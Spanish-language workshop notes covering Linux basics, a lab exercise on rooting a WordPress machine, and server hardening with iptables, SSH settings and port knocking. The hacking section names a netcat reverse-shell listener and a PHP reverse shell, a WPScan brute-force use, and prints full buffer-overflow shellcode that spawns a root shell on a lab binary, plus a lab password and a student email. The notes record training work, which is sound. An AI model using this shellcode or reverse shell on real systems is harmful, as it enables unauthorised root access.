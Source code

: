 # LINUX TALLER

## VIM
:wq write qui
:q! quit and force

## XARGAS
ejecuta algo como argumento final un output

## ALIAS
alias loqueyoquiera="ls"    cerrando la sessión pierdes el alias
para hacerlo fijo meter en /.bashrc el alias

# TALLER HACKING(Ganar root en una maquina con una pagina web que utiliza Wordpress)

## WPscan
utilzado para sacar información sobre los usuarios que se utilizan en la pagina basada en wordpress
también se usa como brute-force para paginas web basadas en wordpress

## Google dorking
buscador más profundo de información
site: sitio "keywoards"

## Netcad
Utilizado para abrir puertos en la maquina a utilizar como reverse shell
netcad -nvlp "puerto puesto" https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


## SSH
es posible utilizar la llave RSA para poder entrar con ssh utilizando el flag -i

buscar en un directorio llaves RSA existentes y utilizables:
find. -type f- -exec sh -c 'echo "Analizando archivo: $1"; ssh-keygen -l -f $1' _ {} \;

## DATOS TAREA OPCIONAL(COMPLETADA)
contraseña maquina wido T4ll3r_H4ck1nG_2024!
correo para el premio: sermomo3@alumni.uv.es

run $(python2 -c 'print "A"*88')


run $(python2 -c 'print "\x90"*35+"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\x64\xf4\xff\xbf"')


/home/wido/pruebas_seguridad/script $(python2 -c 'print "\x90"*35+"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\x64\xf4\xff\xbf"')


# TALLER HARDENING
Asegurar servidores y servicios.

## FIREWALL
iptables -L -nv (muestra las reglas)
preservar logs de las posibles conexiones
LAMP(Linux Apache MySQL PHP) para servidor web
VESTA
Nestia es un gestor instalable open source para gestionar el servidor

## Security SSH
Cambio de puerto sobre el 1000
Bloquear acceso de root utilizando SSH (permitrootlogin no)
Autenticazión de password (password authentication)
Archivo de config de ssh /etc/ssh/sshd_config

## PORT KNOCKING
Configuras firewalls que te permite conectar a diferentes puertos para luego conseguir abilitar la regla de abertura de SSH. En pocas palabras, tocas ciertos puertos configurados en el dispositivo y así puedes abrir y cerrar puertos.
knockd es el servicio utilizable(/etc/knockd.conf y /etc/default/knockd)
START_KNCOKD =1 para abilitar el knocking
KNOCKD_OPTS="-i eth0" para cambiar la interfaz a utilizar y luego abilitar con systemctl start knockd
knock -d 300 10.5.0.10(IP) 2024 2000 9898 para nockear y luego hacer ssh
y para cerrar knock -d 300 %IP% 9898 2000 2024

## OSSEC(HIDS)